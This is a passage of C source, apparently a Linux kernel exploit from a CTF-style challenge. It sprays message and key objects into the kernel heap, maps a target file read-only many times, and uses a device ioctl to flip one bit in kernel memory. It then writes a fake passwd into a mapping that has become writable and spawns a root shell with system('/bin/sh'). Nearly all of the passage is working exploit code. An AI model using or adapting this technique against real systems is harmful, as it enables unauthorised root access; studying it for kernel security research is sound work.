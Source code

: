 ```c
            msgs[i] = spray_msg(PAGE_SIZE, msg);
        sleep(1000000);
    }

    memset(payload, 'B', sizeof(payload));
    for (int i = 0; i < MAX_MSGS; i++)
        msgs[i] = spray_msg(0x100, msg);
    for (int i = 0; i < 78; i++)
        alloc_key(i, payload, sizeof(payload));

#define BASE_OFFSET 0x100
    for (unsigned long i = 0; i < MAX_MMAP; i++) {
        void *addr = (void *)((i + 1 + BASE_OFFSET) * (2 * MB));
        char c;
        for (int j = 0; j < SUB_MMAP; j++) {
            mmap_ptrs[i][j] = mmap(addr, PAGE_SIZE, PROT_READ, MAP_POPULATE | MAP_SHARED | MAP_FIXED, target_fd, 0);
            if (mmap_ptrs[i][j] == MAP_FAILED)
                perror_exit("mmap");
            c = *(char *)mmap_ptrs[i][j];
            addr += 32 * PAGE_SIZE;
        }
    }

    ioctl(dev_fd, CMD_ALLOC, 0x100);

#define BYTE_OFF 0x2200
#define BIT_OFF 1
    ioctl(dev_fd, CMD_FLIP, (BYTE_OFF << 3) | (BIT_OFF));

    int ret;
    for (unsigned long i = 0; i < MAX_MMAP; i++) {
        for (int j = 0; j < SUB_MMAP; j++) {
            ret = read(target_fd, mmap_ptrs[i][j], 1);
            if (ret != -1) {
                printf("GOOD!\n");
                memcpy(mmap_ptrs[i][j], fake_passwd, sizeof(fake_passwd));
                msync(mmap_ptrs[i][j], PAGE_SIZE, MS_SYNC);
                system("/bin/sh");
                return 0;
            }
        }
    }
    printf("FAILED\n");

    return 0;
}
```

### `keyutils.h`
